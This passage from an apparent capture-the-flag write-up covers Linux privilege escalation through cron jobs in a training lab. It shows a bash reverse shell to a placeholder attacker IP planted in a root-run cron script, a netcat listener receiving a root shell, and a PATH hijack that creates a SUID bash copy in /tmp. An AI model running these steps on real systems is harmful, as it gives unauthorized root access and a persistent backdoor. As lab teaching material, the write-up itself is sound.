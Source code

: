 ```gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c```
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```
two last cronjob run each min, ```overwrite.sh``` and ```/usr/local/bin/compress.sh```

```console
user@debian:~$ locate overwrite.sh # find the scrip
/usr/local/bin/overwrite.sh
user@debian:~$ cat /usr/local/bin/overwrite.sh
#!/bin/bash

echo `date` > /tmp/useless
user@debian:~$ nano /usr/local/bin/overwrite.sh # edit the scrip
```
change the content in overwrite.sh to following os you can find script [here](bash_blackdoor.sh)
```bash
#!/bin/bash
bash -i >& /dev/tcp/<kali ip>/<port> 0>&1
```
gratz we just create backdoor, now run netcat and wait for the connection
```console
bibo318@parrot:~/LinuxPrivEsc$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.236.173] 56477
bash: no job control in this shell
root@debian:~# whoami
whoami
root
```

# Task 9: Cron Jobs: PATH Environment Variable 
from last task we notice that the PATH variable starts with /home/user (```PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin```) which is our user's home directory. We can create a new file call  overwrite.sh and make it do something else, forinstance; copy create a new bash. So ```nano overwrite.sh``` and add this:
```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

```console
user@debian:~$ chmod +x /home/user/overwrite.sh # make it executable and wait 1 min for cron job run
user@debian:~$ /tmp/rootbash -p # now run it
rootbash-4.1# whoami
root
```

note that the cron job will go thought the path one by one, so you can put the script in any directory that included in the path. It is important to know that it is only work with cron job that a absolute path is not givven.
